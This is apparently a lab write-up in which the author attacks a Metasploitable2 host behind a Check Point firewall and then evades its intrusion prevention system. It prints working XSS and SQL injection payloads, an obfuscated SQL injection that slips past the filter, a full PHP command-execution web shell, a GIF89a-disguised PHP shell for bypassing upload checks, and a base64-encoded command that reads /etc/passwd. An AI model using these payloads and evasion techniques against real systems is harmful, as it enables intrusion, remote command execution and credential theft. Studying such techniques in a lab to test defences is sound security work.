### What is **Intrusion Prevention System (IPS)**

Intrusion Prevention Systems detect or prevent attempts to exploit weaknesses in vulnerable systems or applications, protecting you in the race to exploit the latest breaking threat. Check Point IPS protections in our Next Generation Firewall are updated automatically. Whether the vulnerability was released years ago, or a few minutes ago, your organization is protected.[[source](https://www.checkpoint.com/quantum/intrusion-prevention-system-ips/)]

In simple words IPS try to detect and prevent any attempts to exploit your system or your application.

In this lab I will try to bypass IPS blade.

### Lab Requirements

1. kali Linux as attacker
2. metsploitable2 as vulnerable machine
3. Check Point Firewall R80.40

## Without IPS Blade

lets start without enabling the IPs blade and see what we can attack and exploit.



From Kali Linux let’s perform some common attacks like XSS, SQLi, and upload files.

#### - Reflected XSS

simple payload

```jsx
<script>alert('CyberY')</script>
```



As we can see payload successfully executed.

#### - SQL Injection

simple payload

```sql
1' or 1--
```



we can retrieve all the users simply.

#### - File Upload

lets upload simple backdoor

```php                          
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```





got a remote code execution.



## Enable IPS Blade

1. In check point firewall double click on the firewall name.
2. In Threat Prevention select IPS.
3. Click OK.



you should see IPS blade enabled.


1. Click on Security Policies in the left side.
2. Under Threat Prevention select Policy.
3. Right click under Action and select Strict.



7.Publish and install the policies.

Lets try to exploit and see the behavior.

## Exploitation

#### - XSS reflected

with same payload failed.



#### - SQL Injection

with same payload failed.



#### - File Upload

failed.



##### This meaning the IPS working great.

Check the logs in the firewall.



you can double click and see the details 



## Bypass IPS in Check Point Firewall

After we see the behavior of the IPS lets bypass it.

to bypass it we have to know how IPS identification works for this I suggest to watch this [](https://www.youtube.com/watch?v=hEgWPWIuq_s&ab_channel=ProfessorMesser "Network Intrusion Detection and Prevention"){:target="_blank" rel="noopener"}.

Now we are ready to go, to make this easy we can take help from [PayloadALLThings](https://github.com/swisskyrepo/PayloadsAllTheThings){:target="_blank" rel="noopener"} in github.

#### - XSS reflected

The only obstacle to bypass the IPS is to find action upon the
error. alert(), prompt(), confirm(), and eval() were all blocked, so we would have to look for other alternatives to create a proof of concept to show the existence of cross-site scripting vulnerabilities.

```jsx
1'">
```

By this payload we are able to bypass IPS and preform reflected XSS.



#### - SQL Injection

After long search I bypass it by replacing the space with **/*! */** as following payload [[source](https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli)]

```sql
1'/*! */or/*! */'1/*! */--/*! */
```


#### - File Upload

After some attempts I got to know that the IPS check the content type, to bypass this we can put **GIF89a;** header.

The payload is 

```php
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```

Uploaded with php extension means the IPS never check the extension of the file. 



navigate to the url, then type ?cmd=whoami



another interesting thing that IPS block me from doing cat /etc/passwd

To bypass it I encoded the command as following

```bash
echo Y2F0IC9ldGMvcGFzc3dkCg== | base64 -d | bash
```

and here we go 😀

### Thanks for reading, hope you enjoyed.